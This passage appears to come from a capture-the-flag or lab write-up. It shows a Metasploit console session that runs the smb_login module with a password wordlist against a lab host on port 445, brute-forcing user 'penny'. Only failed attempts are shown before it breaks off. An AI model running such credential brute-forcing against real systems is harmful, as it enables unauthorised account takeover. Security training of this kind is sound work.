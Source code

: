Next we'll try to brute force `smb_login` using a wordlist
```
msf5 auxiliary(scanner/http/http_version) > search smb_login

Matching Modules
================

   #  Name                             Disclosure Date  Rank    Check  Description
   -  ----                             ---------------  ----    -----  -----------
   0  auxiliary/scanner/smb/smb_login                   normal  No     SMB Login Check Scanner


msf5 auxiliary(scanner/http/http_version) > use 0
msf5 auxiliary(scanner/smb/smb_login) > show options

Module options (auxiliary/scanner/smb/smb_login):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   ABORT_ON_LOCKOUT   false            yes       Abort the run when an account lockout is detected
   BLANK_PASSWORDS    false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED   5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS       false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS        false            no        Add all passwords in the current database to the list
   DB_ALL_USERS       false            no        Add all users in the current database to the list
   DETECT_ANY_AUTH    false            no        Enable detection of systems accepting any authentication
   DETECT_ANY_DOMAIN  false            no        Detect if domain is required for the specified user
   PASS_FILE                           no        File containing passwords, one per line
   PRESERVE_DOMAINS   true             no        Respect a username that contains a domain name.
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST       false            no        Record guest-privileged random logins to the database
   RHOSTS             10.10.214.253    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT              445              yes       The SMB service port (TCP)
   SMBDomain          .                no        The Windows domain to use for authentication
   SMBPass                             no        The password for the specified username
   SMBUser                             no        The username to authenticate as
   STOP_ON_SUCCESS    false            yes       Stop guessing when a credential works for a host
   THREADS            1                yes       The number of concurrent threads (max one per host)
   USERPASS_FILE                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS       false            no        Try the username as the password for all users
   USER_FILE                           no        File containing usernames, one per line
   VERBOSE            true             yes       Whether to print output for all attempts

msf5 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt
PASS_FILE => /usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt
msf5 auxiliary(scanner/smb/smb_login) > run

[*] 10.10.214.253:445     - 10.10.214.253:445 - Starting SMB login bruteforce
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:95',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:98',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:2003',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:2008',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:111111',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:123456',
```